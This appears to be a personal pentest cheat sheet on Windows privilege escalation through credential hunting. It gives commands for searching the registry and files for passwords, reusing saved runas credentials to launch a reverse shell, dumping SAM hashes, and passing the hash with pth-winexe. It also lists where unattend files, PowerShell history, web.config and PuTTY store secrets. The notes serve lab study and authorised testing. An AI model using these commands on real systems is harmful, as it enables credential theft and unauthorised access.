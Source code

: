 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Registry
Can can contain password for insecure services.
[reg](reg.md)
```powershell
# search for password in either keyname or keyvalue recursively
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Saved Creds
- Windows can allow user to save their password with runas.exe command.
- Can be queried with:
```powershell
# list already saved key
cmkey /list

# use the cred to run reverse shell as that user.
run /savecred /user:<username> C\reverse.exe

```

### Unattended Windows Installation
When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
```xml
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```
As part of these files, you might encounter credentials:
```powershell
dir /s *pass* == *.config
```
- Searching for files that contains the word `password` and also ends in either `.xml` `.ini` or `.txt`
```powershell
findstr /si password *.xml *.ini *.txt
```

### SAM
- Security Accounts Manager
- Used for storing password hashes
- Encrypted using key found inside the file `SYSTEM`
- If SAM and SYSTEM is readable, it is possible to read hashes
- Located at `C:\Windows\System32\config` directory
- Locked while windows is running.
- Backup can be found at 
```powershell
C:\Windows\Repair
C:\windows\System32\config\RegBack
```
- Creddump7 can be used to fetch hashes from both the field.
> Hash that start with `31d6` means that either the account has no password or the account is deactivated.
- If hashes are not crackable, path-the-hash method can be used to login to the system.
- pth-winexe version of the winexe can be used to perform pass-the-hash attacks
```powershell
# hash should be both NL and LM hash
# add --system to get a SYSTEM level shell 
.\pth-winexe -U 'admin%<hash>' //<ip> cmd.exe
```

### Powershell History
Can be found in the below location: 
cmd:
```cmd
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
powershell:
```powershell
$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### IIS Configuration Files
- Default web server in on windows installation.
- Configuration is stored in `web.config`, preferebly in the variable `connectionstring`
- `web.config` is stored in:
```powershell
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

### PuTTY
- Putty can store proxy configuration in registry keys that includes cleartext authentication details.
- They are stored in :
```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
